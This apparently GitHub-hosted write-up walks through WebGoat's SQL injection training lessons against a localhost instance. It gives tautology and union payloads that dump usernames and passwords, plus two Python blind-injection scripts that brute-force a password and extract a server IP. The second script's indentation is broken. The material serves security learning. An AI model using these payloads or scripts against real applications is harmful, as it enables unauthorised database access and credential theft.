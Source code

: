 # WebGoat Injection Flows
## SQL Injection (intro)
### Number 7
![Sql Injection n.7](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_01.png)

As you read in the previous part of this chapter we need to inject in the "Account Name" field something like this:
```
' or 1=1 --
```
The " ' " close the " ' " in the sql command, then we make a statement that is always true. This way all the entries of the database will be print. At the end we add -- to comment the rest of the Sql command, so if there are other request, they will commented.

### Number 8
![Sql Injection n.8](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_02.png)

As we read in this chapter we need to inject somthing like:
```
1 or 1=1 --
```
We need to pass a number because USERID is a number.

## SQL Injection (advanced)
### Number 3
![Sql Injection (Advanced) n.3](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_03.png)

To resolve this exercise you can read this documentation that is very good to learn how to implement a union injection.

First of all we need to find the number of columns of the table we are using. To do this we need to inject in the "Name" field:
```
' or 1=1 --
```
Now we can see the number and the type of columns.

![Sql Injection (Advanced) n.3 Number and Type of Columns](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_04.png)

With this information we can do a union with "user_system_data" table.

To make this union, we have to use the same number of columns and type.
```
' union select 0,user_name,password,'','','',0 from user_system_data --
```
And as we expected we achieve the solution.

![Sql Injection (Advanced) n.3 Solution](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_05.png)

### Number 5

![Sql Injection (Advanced) n.5](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_06.png)

First we try to register the username tom, but already exist. we try to register: ```tom' or 1=1```, but already exist also this.

So we try to register something like: ```Ale' or 1=1```, but it as no succes, so we try Ale and it doesn't exist so we noticed that the backend execute somthing like select <name> and if it exist it can't be registered. So now we can bruteforce to retrive the password of tom by doing a script in python that tray with "like" the password so the backend will try select username=tom and password like a%, where the "a" could be the firt letter and so on.
```
from string import *
import requests
from random import *
s = requests.Session()

alphabet = ascii_lowercase + ascii_uppercase + digits

user = ''.join(choice(alphabet) for i in range(12))
passwd = '123456789'

url = 'http://localhost:8080/WebGoat/register.mvc'
s.post(url, params={'username': user, 'password': passwd, 'matchingPassword': passwd, 'agree': 'agree'})


url = 'http://localhost:8080/WebGoat/SqlInjection/challenge'

tom_password = '%'

while True:
    counter = 1
    for char in alphabet:
        test = tom_password.replace("%", char + "%")
        parameters = {'username_reg': "tom' and password like '%s" % test, 'email_reg': 'tom@gmail.com', 'password_reg': 'tom', 'confirm_password_reg': 'tom'}
        print(test)
        response = s.put(url, params=parameters)
        counter += 1
        text = response.text
        if "already exists" in text:
            tom_password = test
            break

    if len(alphabet) < counter:
        break

print("password: " + tom_password)
```
We also can do a manual search by typing: "tom' and password like 't%"

We have to run this script with Python3 then when it finish we delete the last "%" and we get the password for tom (thisisasecretfortomonly). (There is a bug that don't make turn green the block 5)

## SQL Injection (mitigation)
### Number 8
![Sql Injection (Mitigation) n.8](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/01_07.png)

After some test we found that if we ask to order by ip, in the address path we have the state "column". We can use this to do samthing like this: " case (True) then … else … end ".

And instead of "(True)" we use "exists()".

So we pass to the exists function the select for the ip of the webgoat-prd and we compare every character with a number. If the result is ordered by ip we know that the number we use is true, while it will be ordered by mac address if it is not true.

We can use python to retrieve this solution with this script:
```
from string import *
import requests
from random import *
s = requests.Session()
alphabet = ascii_lowercase + ascii_uppercase
user = ''.join(choice(alphabet) for i in range(12))
passwd = '123456789'
url = 'http://localhost:8080/WebGoat/register.mvc'
s.post(url, params={'username': user, 'password': passwd, 'matchingPassword': passwd, 'agree': 'agree'})
alphabet = digits + "."
for i in range(1,15):
for n in alphabet:
        
        url = "http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd' AND substr(ip,%s,1) = '%s') IS NOT NULL THEN hostname ELSE id END)" % (i, n)
        resp = s.get(url)
print("{}, {}: {}".format(i, n, resp.text))
print("-----------------------------------------------------------")
```
The ip of webgoat-prd is ```104.130.219.202```.
You can also use ZAP Fazzer, and doing the same thing.
